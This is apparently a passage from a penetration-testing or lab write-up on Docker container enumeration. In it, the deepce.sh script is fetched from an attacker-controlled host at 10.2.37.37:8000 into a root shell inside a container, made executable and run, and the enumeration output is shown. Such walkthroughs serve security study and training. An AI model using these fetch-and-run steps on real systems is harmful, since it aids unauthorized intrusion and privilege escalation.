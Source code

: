 `wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh`

```bash
deepce.sh                            100%[====================================================================>]  38.49K  --.-KB/s    in 0.04s   

2024-10-10 07:36:03 (945 KB/s) - 'deepce.sh' saved [39417/39417]
```

**For source:**

[https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)

```bash
root@b80c81ac62ee:/# wget http://10.2.37.37:8000/deepce.sh

deepce.sh           100%[===================>]  38.49K  56.1KB/s    in 0.7s    

2024-10-10 11:37:55 (56.1 KB/s) - ‘deepce.sh’ saved [39417/39417]

root@b80c81ac62ee:/# chmod +x deepce.sh
root@b80c81ac62ee:/# ./deepce.sh

==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check
[+] Negative Test ........... No
[+] Multi line test ......... Yes
Command output
spanning multiple lines                                                                                                                           

Tips will look like this and often contains links with additional info. You can usually 
ctrl+click links in modern terminal to open in a browser window                                                                                   
See https://stealthcopter.github.io/deepce                                                                                                        

===================================( Enumerating Platform )===================================
[+] Inside Container ........ Yes
[+] Container Platform ...... docker
[+] Container tools ......... None
[+] User .................... root
[+] Groups .................. root
[+] Sudoers ................. No
[+] Docker Executable ....... Not Found
[+] Docker Sock ............. Not Found
[+] Docker Version .......... Version Unknown
==================================( Enumerating Container )===================================
[+] Container ID ............ b80c81ac62ee
[+] Container Full ID ....... b80c81ac62ee02dc1bb9c68330b8066e13ac4dcf290d0665594ff375f73ba0c3
[+] Container Name .......... Could not get container name through reverse DNS
[+] Container IP ............ 172.17.0.2 
[+] DNS Server(s) ........... 10.0.0.2 
[+] Host IP ................. 172.17.0.1
[+] Operating System ........ GNU/Linux
[+] Kernel .................. 5.4.0-1029-aws
[+] Arch .................... x86_64
[+] CPU ..................... Intel(R) Xeon(R) CPU E5-2686 v4 @ 2.30GHz
[+] Useful tools installed .. Yes
/usr/bin/curl
/usr/bin/wget                                                                                                                                     
/bin/hostname                                                                                                                                     
```